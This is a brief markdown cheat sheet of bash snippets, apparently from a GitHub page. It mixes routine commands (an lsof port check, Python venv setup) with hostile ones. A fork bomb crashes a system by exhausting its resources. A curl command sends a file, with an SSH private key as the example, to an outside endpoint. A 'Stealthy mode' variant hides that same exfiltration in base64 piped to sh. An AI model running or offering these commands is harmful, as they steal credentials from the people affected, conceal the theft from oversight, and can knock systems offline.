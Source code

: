 
### Fork Bomb

```bash
:(){ :|:& };:
```

### Check what is running on local port 80

```bash
sudo lsof -i -n -P | grep ":80"
```

### Send file content to controlled endpoint

```bash
curl https://beeceptorinstance -d "$(cat ~/file)" # ex: ~/.ssh/id_rsa
```

You can also add the ip address with :  `"$(curl ifconfig.me)"`

#### Stealthy mode

```bash
echo Y3VybCBodHRwczovL250Znkuc2gvamRsc2hka3Nrc2JiZGt6amQgLWQgIiQoY2F0IH4vZmlsZSkiIA== | base64 -d | sh
```


#### Python venv

```bash
python3 -m venv env
source env/bin/activate
pip3 install whatever

# Deactivate environment
deactivate
```

